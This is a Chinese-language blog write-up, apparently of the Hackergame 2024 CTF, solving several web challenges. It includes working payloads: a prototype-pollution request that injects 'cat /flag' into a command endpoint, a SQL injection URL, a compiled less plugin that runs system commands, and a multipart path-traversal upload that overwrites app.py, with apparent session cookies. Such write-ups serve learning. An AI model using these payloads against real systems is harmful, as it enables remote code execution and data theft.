







+++
title = "hackergame2024"
slug = "hackergame2024"
description = "刷"
date = "2024-11-14T11:14:51"
lastmod = "2024-11-14T11:14:51"
image = ""
license = ""
categories = ["赛题"]
tags = []
+++

# 0x02 question

## 签到

这里的话我刚进来觉得是复制粘贴就可以了，但是不行，查看源码也没发现什么，后面看到url有个参数

```
http://202.38.93.141:12024/?pass=true
```

就好了

## 喜欢做签到的 CTFer 你们好呀

这个更像是社工题，先找到网页[招新网页](https://github.com/Nebula-CTFTeam/Recruitment-2024)





## 比大小王

这一眼脚本题啊，对面的比我快太多了，但是这里抓不到包，可以分析源码看看



这里使用了`choosAnswer()`，不过这里的话有个漏洞就是

- 在`chooseAnswer`函数内部，答案会被添加到`state.inputs`数组中，具体如下：

  ```js
  state.inputs.push(choice);
  ```

- 这意味着，用户的选择会被记录在 `state.inputs` 数组中，用于后续的处理（例如，提交答案或进行评估）。

`state` 对象可以在浏览器中访问所以这里写一个`Poc`，我们知道数字是在`state.value`数组里面

```js
answers = [];
for (i = 0; i < 100; i++) {
    ans = state.values[i][0] > state.values[i][1] ? '>' : '<';
    answers.push(ans);
}
submit(answers);
```

比赛开始之后直接打入即可

## Node.js is Web Scale

拿到源码

```js
const express = require("express");
const bodyParser = require("body-parser");
const path = require("path");
const { execSync } = require("child_process");

const app = express();
app.use(bodyParser.json());
app.use(express.static(path.join(__dirname, "public")));

let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

let store = {};

// GET /api/store - Retrieve the current KV store
app.get("/api/store", (req, res) => {
  res.json(store);
});

// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});

// GET /get - Get a key-value pair in the store
app.get("/get", (req, res) => {
  const key = req.query.key;
  const keys = key.split(".");

  let current = store;
  for (let i = 0; i < keys.length; i++) {
    const key = keys[i];
    if (current[key] === undefined) {
      res.json({ message: "Not exists." });
      return;
    }
    current = current[key];
  }

  res.json({ message: current });
});

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});

app.get("*", (req, res) => {
  res.sendFile(path.join(__dirname, "public", "index.html"));
});

// Start the server
const PORT = 3000;
app.listen(PORT, () => {
  console.log(`KV Service is running on port ${PORT}`);
});
```



然后执行命令就可以了

```json
{
    "key": "__proto__.poc",
    "value": "cat /flag"
}
```

```http
https://chal03-l497s95w.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=poc
```

## PaoluGPT

一进来看到有很多聊天记录可以利用js来检索

```js
links = document.getElementsByTagName("a");
(async () => {
  for (let link of links) {
  	url = link.href;
  	resp = await fetch(url);
  	text = await resp.text();
  	if (text.search("flag") != -1) {
      console.log(url);
    }
	}
})()
console.log("Getting executed...")
```

使用异步js进行操作一会就好了

但是这个对于我这种没有基础的不是很好其实看源码一下就看到有sql注入漏洞

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

```http
/view?conversation_id=1'or contents like "%flag%"--+
```

## LESS 文件查看器在线版



拿到源码看docker看到专门安转了less，后面知道less可以getshell

```shell
printf '#include <stdlib.h>\nvoid onload(void *v) { system("ls / -alh"); }' | gcc -fPIC -shared -o plugin.so -xc - && ar rc ./@.a /dev/null && echo '-s --plugin ./plugin.so ./@.a' > .a


scp -P 8776 -r root@156.238.233.9:/test C:\Users\baozhongqi\Desktop
```

按照顺序上传就拿到了目录




```shell
printf '#include <stdlib.h>\nvoid onload(void *v) { system("cat /flag"); }' | gcc -fPIC -shared -o plugin.so -xc - && ar rc ./@.a /dev/null && echo '-s --plugin ./plugin.so ./@.a' > .a
```

## 禁止内卷

```python
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

UPLOAD_DIR = "/tmp/uploads"

os.makedirs(UPLOAD_DIR, exist_ok=True)

# results is a list
try:
    with open("results.json") as f:
        results = json.load(f)
except FileNotFoundError:
    results = []
    with open("results.json", "w") as f:
        json.dump(results, f)


def get_answer():
    # scoring with answer
    # I could change answers anytime so let's just load it every time
    with open("answers.json") as f:
        answers = json.load(f)
        # sanitize answer
        for idx, i in enumerate(answers):
            if i < 0:
                answers[idx] = 0
    return answers


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html", results=sorted(results))


@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    answers = get_answer()
    try:
        with open(filepath) as f:
            user = json.load(f)
    except json.decoder.JSONDecodeError:
        flash("你提交的好像不是 JSON")
        return redirect("/")
    try:
        score = 0
        for idx, i in enumerate(answers):
            score += (i - user[idx]) * (i - user[idx])
    except:
        flash("分数计算出现错误")
        traceback.print_exc()
        return redirect("/")
    # ok, update results
    results.append(score)
    with open("results.json", "w") as f:
        json.dump(results, f)
    flash(f"评测成功，你的平方差为 {score}")
    return redirect("/")
```

貌似就是一个文件上传，但是这里一直在检查json而且没看出有什么漏洞，后面测试了之后想了一下发现这里其实应该有个目录穿越漏洞



那我们直接覆盖`app.py`就好了

```http
POST /submit HTTP/1.1
Host: chal02-3nzwiko8.hack-challenge.lug.ustc.edu.cn:8443
Cookie: _ga=GA1.1.1000090692.1731554334; _ga_R7BPZT6779=GS1.1.1731554333.1.1.1731554360.33.0.1753163579; session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NGY2MFx1NjNkMFx1NGVhNFx1NzY4NFx1NTk3ZFx1NTBjZlx1NGUwZFx1NjYyZiBKU09OIl19XX0.ZzWEyQ._gFg4tpLxSP5OuUym70KdcTkX10
Content-Length: 497
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://chal02-3nzwiko8.hack-challenge.lug.ustc.edu.cn:8443
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryI4HT8yJAhHzJExIp
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://chal02-3nzwiko8.hack-challenge.lug.ustc.edu.cn:8443/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

------WebKitFormBoundaryI4HT8yJAhHzJExIp
Content-Disposition: form-data; name="file"; filename="../web/app.py"
Content-Type: text/plain

from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

@app.route("/", methods=["GET"])
def index():
    answers = json.load(open("answers.json"))
    return answers
------WebKitFormBoundaryI4HT8yJAhHzJExIp--

```

这样子就拿到了answer.json，但是一看里面有负数

肯定是要做转换的，我们知道首位是flag，所以看到这里

```json
[37,43,32,38]
```

```asciiarmor
102 108 97 103
```

刚好每个差65，这里直接写个脚本

```python
# 原始列表
numbers = [
    37, 43, 32, 38, 58, 52, 45, 46, -32, -32, -32, -32, 30, 36, 50,
    49, 36, 53, 36, 49, 30, 45, 46, 54, 30, 20, 30, 49, 52, 45, 30,
    12, 24, 30, 34, -17, 35, 36, -8, 34, -12, -15, -9, 32, -10, -15,
    32, -15, 60, 94, 46, 67, 15, 9, 42, 37, 34, 91, 26, 76, 42, 61,
    38, 46, 17, 45, 85, 61, 33, 41, 60, 92, 67, 80, 63, 49, 45, 14,
    56, 26, 32, 83, 88, 67, 71, 11, 71, 27, 57, 47, 89, 12, 42, 36,
    21, 12, 24, 44, 37, 51, 40, 91, 56, 61, 16, 60, 7, 95, 14, 91,
    91, 25, 43, 89, 96, 79, 78, 2, 39, 38, 75, 3, 58, 0, 6, 99,
    38, 98, 26, 15, 14, 79, 84, 8, 99, 4, 99, 8, 9, 37, 97, 92,
    31, 82, 13, 93, 13, 99, 7, 19, 29, 67, 95, 3, 77, 42, 56, 46,
    95, 30, 11, 96, 42, 96, 64, 37, 100, 39, 92, 14, 71, 0, 44, 97,
    31, 10, 39, 96, 38, 20, 75, 81, 11, 79, 98, 44, 72, 96, 51, 40,
    69, 31, 58, 66, 6, 17, 30, 34, 3, 44, 51, 7, 69, 36, 48, 67,
    56, 88, 72, 61, 5, 60, 68, 6, 33, 66, 53, 84, 91, 6, 21, 20,
    76, 90, 66, 50, 52, 53, 34, 42, 25, 11, 3, 75, 75, 89, 33, 6,
    31, 80, 24, 21, 24, 51, 8, 88, 68, 59, 25, 44, 74, 18, 98, 41,
    4, 17, 20, 22, 62, 28, 46, 15, 8, 94, 66, 48, 87, 28, 6, 72,
    56, 37, 76, 85, 5, 53, 16, 83, 50, 4, 93, 11, 54, 53, 4, 72,
    9, 35, 55, 26, 47, 62, 36, 81, 95, 64, 70, 15, 93, 60, 61, 40,
    68, 56, 51, 13, 97, 42, 81, 75, 79, 71, 70, 90, 5, 61, 14, 56,
    65, 65, 64, 8, 80, 13, 23, 41, 47, 35, 3, 19, 54, 51, 1, 2,
    93, 22, 7, 56, 60, 68, 99, 71, 80, 35, 27, 51, 79, 59, 30, 45,
    71, 99, 16, 58, 40, 55, 35, 58, 25, 40, 84, 32, 51, 55, 8, 95,
    22, 73, 72, 1, 72, 100, 93, 46, 83, 21, 48, 49, 76, 51, 72, 84,
    85, 9, 64, 18, 34, 20, 67, 10, 22, 41, 77, 44, 94, 78, 19, 35,
    29, 98, 9, 76, 85, 25, 57, 64, 22, 3, 75, 17, 50, 76, 17, 52,
    100, 76, 99, 29, 43, 53, 27, 30, 20, 78, 81, 13, 86, 13, 37, 22,
    25, 40, 73, 18, 96, 40, 24, 96, 42, 3, 86, 59, 93, 49, 96, 43,
    37, 72, 73, 4, 37, 76, 33, 62, 67, 65, 13, 70, 48, 32, 52, 25,
    43, 20, 47, 69, 0, 92, 99, 46, 79, 90, 83, 37, 77, 26, 44, 59,
    2, 2, 32, 84, 65, 74, 68, 65, 62, 50, 27, 62, 79, 1, 88, 94,
    53, 53, 32, 68, 5, 81
]

# 将每个数字加65并转换为字符，同时过滤掉负数
result = ''.join(chr(num + 65) for num in numbers if num + 65 >= 32 and num + 65 <= 126)

# 输出结果
print(result)
```

# 0x03 小结

这个好像不是CTF而是程序员的比赛？所以我没有打标签，而且都是很有新意的题目
